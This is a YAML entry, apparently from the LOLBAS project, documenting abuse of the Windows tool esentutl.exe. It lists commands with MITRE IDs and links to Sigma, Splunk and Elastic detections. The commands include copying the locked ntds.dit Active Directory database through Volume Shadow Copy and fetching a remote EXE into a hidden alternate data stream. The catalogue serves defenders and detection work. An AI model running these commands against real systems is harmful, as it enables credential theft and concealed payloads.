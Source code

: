 ```yaml
---
Name: Esentutl.exe
Description: Binary for working with Microsoft Joint Engine Technology (JET) database
Author: 'Oddvar Moe'
Created: 2018-05-25
Commands:
  - Command: esentutl.exe /y C:\folder\sourcefile.vbs /d C:\folder\destfile.vbs /o
    Description: Copies the source VBS file to the destination VBS file.
    Usecase: Copies files from A to B
    Category: Copy
    Privileges: User
    MitreID: T1105
    OperatingSystem: Windows vista, Windows 7, Windows 8, Windows 8.1, Windows 10, Windows 11
  - Command: esentutl.exe /y C:\ADS\file.exe /d c:\ADS\file.txt:file.exe /o
    Description: Copies the source EXE to an Alternate Data Stream (ADS) of the destination file.
    Usecase: Copy file and hide it in an alternate data stream as a defensive counter measure
    Category: ADS
    Privileges: User
    MitreID: T1564.004
    OperatingSystem: Windows vista, Windows 7, Windows 8, Windows 8.1, Windows 10, Windows 11
  - Command: esentutl.exe /y C:\ADS\file.txt:file.exe /d c:\ADS\file.exe /o
    Description: Copies the source Alternate Data Stream (ADS) to the destination EXE.
    Usecase: Extract hidden file within alternate data streams
    Category: ADS
    Privileges: User
    MitreID: T1564.004
    OperatingSystem: Windows vista, Windows 7, Windows 8, Windows 8.1, Windows 10, Windows 11
  - Command: esentutl.exe /y \\192.168.100.100\webdav\file.exe /d c:\ADS\file.txt:file.exe /o
    Description: Copies the remote source EXE to the destination Alternate Data Stream (ADS) of the destination file.
    Usecase: Copy file and hide it in an alternate data stream as a defensive counter measure
    Category: ADS
    Privileges: User
    MitreID: T1564.004
    OperatingSystem: Windows vista, Windows 7, Windows 8, Windows 8.1, Windows 10, Windows 11
  - Command: esentutl.exe /y \\live.sysinternals.com\tools\adrestore.exe /d \\otherwebdavserver\webdav\adrestore.exe /o
    Description: Copies the source EXE to the destination EXE file
    Usecase: Use to copy files from one unc path to another
    Category: Download
    Privileges: User
    MitreID: T1564.004
    OperatingSystem: Windows vista, Windows 7, Windows 8, Windows 8.1, Windows 10, Windows 11
  - Command: esentutl.exe /y /vss c:\windows\ntds\ntds.dit /d c:\folder\ntds.dit
    Description: Copies a (locked) file using Volume Shadow Copy
    Usecase: Copy/extract a locked file such as the AD Database
    Category: Copy
    Privileges: Admin
    MitreID: T1003.003
    OperatingSystem: Windows 10, Windows 11, Windows 2016 Server, Windows 2019 Server

Full_Path:
  - Path: C:\Windows\System32\esentutl.exe
  - Path: C:\Windows\SysWOW64\esentutl.exe
Code_Sample:
  - Code:
Detection:
  - Sigma: https://github.com/SigmaHQ/sigma/blob/6312dd1d44d309608552105c334948f793e89f48/rules/windows/process_creation/proc_creation_win_esentutl_params.yml
  - Sigma: https://github.com/SigmaHQ/sigma/blob/6312dd1d44d309608552105c334948f793e89f48/rules/windows/process_creation/proc_creation_win_esentutl_webcache.yml
  - Sigma: https://github.com/SigmaHQ/sigma/blob/6312dd1d44d309608552105c334948f793e89f48/rules/windows/registry/registry_event/registry_event_esentutl_volume_shadow_copy_service_keys.yml
  - Sigma: https://github.com/SigmaHQ/sigma/blob/6312dd1d44d309608552105c334948f793e89f48/rules/windows/process_creation/proc_creation_win_esentutl_sensitive_file_copy.yml
  - Splunk: https://github.com/splunk/security_content/blob/86a5b644a44240f01274c8b74d19a435c7dae66e/detections/endpoint/esentutl_sam_copy.yml
  - Elastic: https://github.com/elastic/detection-rules/blob/f6421d8c534f295518a2c945f530e8afc4c8ad1b/rules/windows/credential_access_copy_ntds_sam_volshadowcp_cmdline.toml
Resources:
  - Link: https://twitter.com/egre55/status/985994639202283520
  - Link: https://dfironthemountain.wordpress.com/2018/12/06/locked-file-access-using-esentutl-exe/
  - Link: https://twitter.com/bohops/status/1094810861095534592
Acknowledgement:
  - Person: egre55
    Handle: '@egre55'
  - Person: Mike Cary
    Handle: '@grayfold3d'
---
```

